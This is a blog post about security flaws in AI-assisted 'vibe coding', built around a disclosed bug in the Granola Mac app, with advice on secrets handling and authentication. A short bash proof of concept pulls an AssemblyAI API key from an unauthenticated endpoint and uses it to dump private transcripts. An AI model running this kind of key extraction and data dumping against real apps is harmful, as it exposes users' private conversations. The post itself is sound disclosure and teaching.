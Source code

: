 ```yaml
---
author: Jonathan Haas
pubDate: 2025-05-12
title: "When Vibe Coding Goes Wrong: Security Lessons from Granola"
description: 
  Vibe coding shifts software creation from careful engineering to casual AI generation. When startups skip security fundamentals, the consequences aren't just bugs—they're breaches. Here's what the Granola incident teaches us.
featured: false
draft: false
tags:
  - cybersecurity
  - vibe-coding
  - AI-development
  - product-security
  - electron-apps
image:
  url: "https://images.pexels.com/photos/669618/pexels-photo-669618.jpeg?auto=compress&cs=tinysrgb&w=1260&h=750&dpr=2"
  alt: "Crumbling wall symbolizing fragile security foundations"
---
```


Vibe coding is having a moment.  
And honestly? It's kind of awesome.

Type a few sentences into an LLM.  
Get a working app back.  
Ship it. Repeat.

Except when you skip the "understand your code" part...  
You don’t just get quirky bugs.  
You get vulnerabilities.

Granola—a Mac app built with Electron—just gave us a painfully real example.

---

## What Went Wrong at Granola

Researchers found that you could:

1. **Unpack** the app easily (`asar extract` on the `.asar` archive).
2. **Read** through the JavaScript.
3. **Find** API endpoints embedded directly in the client.
4. **Hit** one of those endpoints (`get-feature-flags`) without authentication.
5. **Extract** an AssemblyAI API key from the feature flags.
6. **Use** that key to pull **private transcript data** from AssemblyAI.

### Proof of Concept Looked Like This:

```bash
# Step 1: Leak the API key
curl -X POST "https://api.granola.ai/v1/get-feature-flags" \
 -H "X-Client-Version: 5.226.0" \
 -H "Content-Type: application/json" | jq '.[] | select(.feature=="assembly_key")'

# Step 2: Use the key to dump transcripts
curl https://api.assemblyai.com/v2/transcript \
    -H "Authorization: $apiKey" | jq '.transcripts.[].id' > transcript_ids
cat transcript_ids | head -n 1 | tr -d '"' | while read id; do curl https://api.assemblyai.com/v2/transcript/$id -H "Authorization: $apiKey"; done
```

### What the Transcripts Had

- Text transcripts of audio recordings.
- Some metadata.
- (Fortunately) **no direct access to raw audio files**.

Still, leaking user conversations—even just as text—is a security incident.  
Full stop.

---

## How This Smells Like Vibe Coding

Nobody's saying definitively that Granola was "vibecoded."  
But the red flags are textbook:

- Sensitive keys bundled into the client.
- No authentication checks on critical endpoints.
- Client/server boundary confusion.
- Basic security 101 mistakes.

It has the hallmark of someone saying to the AI:

> "Write a cool feature flag system"  

...and never stepping back to ask:

> "Wait, should this even be exposed to the client?"

That’s **classic vibe coding**:  
Prompt, ship, _hope it works_.

---

## Why Vibe Coding Without Guardrails Is Dangerous

Vibe coding feels magical.  
But magic tricks don’t build safe systems.

Without critical layers like:

- **Threat modeling** ("What happens if someone inspects the app?")
- **Secure design** ("Who should be allowed to call this endpoint?")
- **API key management** ("Should keys live in the client?")
- **Principle of least privilege** ("Does this key even need full access?")
  
You’re not just moving fast.  
You're skating blind across a minefield.

### The Hidden Costs of Vibe-Coded Apps

- **Trust Erosion**: Users delete your app—and your brand reputation goes with it.
- **Incident Response**: You scramble to patch, disclose, and recover.
- **Regulatory Exposure**: Privacy laws don’t care if your app was "vibey."
- **Compounding Debt**: Quick fixes become brittle patches on a broken foundation.

---

## The Solution Isn't "No Vibe Coding"

Let’s be clear:  
**Vibe coding isn’t the enemy.**

It’s an incredible productivity unlock.  
It democratizes building.

But if you’re building with AI-generated code, **you have new responsibilities**:

### 1. Audit Everything

Treat your AI like an enthusiastic intern.  
Helpful? Sometimes.  
Trustworthy without review? Never.

### 2. Train for Threat Modeling

You don’t have to be a full-time security engineer.  
But you do need basic instincts:

- Who gets to call this API?
- What’s the worst thing that could happen here?
- Could this app be unpacked, inspected, reversed?

If you can't answer those questions, you need a security review before launch.

### 3. Lock Down Secrets

Never, ever, ever ship API keys, secrets, or privileged tokens in your client apps.  
Use proper backend proxying.  
Scope keys narrowly.  
Rotate them regularly.

No exceptions.

### 4. Build In Authentication and Authorization Early

Even "just a little" security scaffolding saves you from giant messes later.  
Set the bar early:

- Every sensitive API must require auth.
- Every key must be scoped and auditable.
- Every endpoint must assume bad actors are trying to hit it.

---

## Final Thought: It's Only "Vibes" Until It's Real Users

Weekend projects?  
Fine. Vibe away. No judgment.

Production apps that handle user data?

**Vibe coding stops. Engineering begins.**

Ship fast.  
But ship safe.

Granola’s mistake is a flashing neon sign:  
🚨 *The vibes are not enough.* 🚨

---

## Disclosure Timeline (Granola)

- **Feb 18, 2025**: Disclosure contact requested.
- **Feb 26, 2025**: Second request.
- **Mar 10, 2025**: Contact established.
- **Mar 11, 2025**: Issue disclosed to Granola; response received confirming remediation.

✅ API key removed.  
✅ Endpoint patched.

But the scar tissue remains—for the users, and for the team.

Let's learn the lesson the easy way.
